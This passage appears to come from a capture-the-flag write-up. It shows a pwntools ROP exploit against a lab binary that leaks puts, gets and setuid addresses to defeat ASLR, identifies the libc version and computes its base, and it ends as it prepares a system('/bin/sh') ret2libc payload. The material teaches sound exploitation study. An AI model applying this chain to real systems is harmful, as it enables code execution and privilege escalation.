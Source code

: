 ```python
context.binary = binary = ELF("./exploit_me", checksec=False)
_ROP = ROP(binary)


padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts) 
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

# Left-justify the returned hex so it can be unpacked.
puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")
```
![4366d16fdb89afb9864d625a88fdc1c4.png](4366d16fdb89afb9864d625a88fdc1c4.png){: w="500" .center}

- The first 2 and the last 3 nibbles of each address are always the same in each runtime
- That is because ASLR only randomizes the bits in between
- The last 3 nibbles are usually different in each libc version so by running the exploit remotely, we grab the last 3 digits and go [here](https://libc.rip/) and find the libc version
- We can then calculate the offset to the base address of libc

![2e3ac4c2ce7178702d94a4272d3426d6.png](2e3ac4c2ce7178702d94a4272d3426d6.png){: w="700" .center}

Let's go ahead and download the `.so` file for the first libc version found and try it
To find out the base address of libc, all we have to do is add this to the exploit above:
```python
libc = ELF("./libc6_2.23-0ubuntu11.2_amd64.so", checksec=False)
libc.address = puts_address - libc.sym["puts"]
print(f"libc Base address: {hex(libc.address)}")
```

Now we need to craft a new payload which finds the `/bin/sh` string within `libc` and passes it to our call to `system()` as the argument
Now there some aligment issues in memory with Ubuntu which requires us to simply add a `ret` instruction after our padding
